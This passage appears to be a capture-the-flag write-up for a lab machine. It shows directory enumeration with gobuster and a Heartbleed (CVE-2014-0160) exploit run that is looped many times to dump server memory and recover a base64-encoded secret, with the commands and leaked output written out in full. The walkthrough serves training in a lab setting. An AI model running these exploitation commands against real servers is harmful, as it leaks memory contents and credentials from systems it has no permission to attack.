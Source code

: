 We will need to run this a lot of times to collect the bunch of data from the server. So I ran the following command to run it in a sequence.
```
# for i in $(seq 1 100000);do python2 32745.py -p 443 | grep -v '00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00' > data_dump$; done

```

###### `GoBuster Enumerations`
```
# gobuster dir -u https://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 38]
/dev                  (Status: 301) [Size: 310] [--> https://10.10.10.79/dev/]
/encode               (Status: 200) [Size: 554]
/decode               (Status: 200) [Size: 552]
/omg                  (Status: 200) [Size: 153356]
/server-status        (Status: 403) [Size: 293]
Progress: 220560 / 220561 (100.00%)
===============================================================
```

The `/encode` and `/decode` page use for encoding and decoding string to base64.

###### `Obtaining passowrd for user hype`
Using the [Heartbleed Exploit](https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py) I was able to send multiple number of requires which reveals the base64 key.
```
# python2 heartbleed.py 10.10.10.79 -p 443 -n 10

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.10.10.79:443, 10 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 10 of 10
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==.<.).b./.O..J.R7.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
```